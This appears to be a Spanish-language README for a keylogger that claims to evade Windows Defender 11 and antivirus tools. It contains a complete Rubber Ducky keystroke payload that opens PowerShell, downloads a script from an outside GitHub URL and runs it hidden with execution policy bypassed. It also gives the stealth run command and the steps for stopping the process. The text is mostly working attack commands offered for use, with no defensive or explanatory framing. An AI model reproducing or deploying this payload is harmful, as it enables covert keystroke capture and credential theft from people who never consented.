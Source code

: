 ***Keylogger con evasión de Windows Defender 11 y Antivirus.***

# ---------------------------------------------------------
# By R.G.M - 2025
# ---------------------------------------------------------


Keylogger capaz de evadir Windows Defender 11 y Antivirus.
Creado con la idea de ejecutarlo remotamente desde un rubberducky.

# ---------------------------------------------------------
# PAYLOAD para RUBBER DUCKY;
# ---------------------------------------------------------

DELAY 20

GUI r

DELAY 20

STRING cmd

ENTER	

ENTER

DELAY 20

STRING powershell

ENTER

DELAY 20

STRING Invoke-WebRequest -Uri "https://raw.githubusercontent.com/C4sp3r2222/duckylog/main/script.ps1" -OutFile "$env:USERPROFILE\Desktop\script.ps1"

ENTER

DELAY 300

STRING powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -File C:\Users\$env:USERNAME\Desktop\script.ps1' -WindowStyle Hidden -ErrorAction SilentlyContinue"

ENTER


# ---------------------------------------------------------
# EJECUCION en Powershell en modo sigiloso y persistente:
# ---------------------------------------------------------

powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -File C:\Users\$env:USERNAME\Desktop\script.ps1' -WindowStyle Hidden -ErrorAction SilentlyContinue"

# ---------------------------------------------------------
# DETENCION DE SCRIPT:
# ---------------------------------------------------------

# Ejecutar en Powershell:
Get-CimInstance Win32_Process | Where-Object { $_.CommandLine -like '*script.ps1*' } | Select-Object ProcessId, CommandLine

# (Veremos un numero de proceso asociado Ej: 1234 )

# Para detenerlo, ejecutar en powershell:
Stop-Process -Id 1234 -Force

# (Detenemos el proceso)

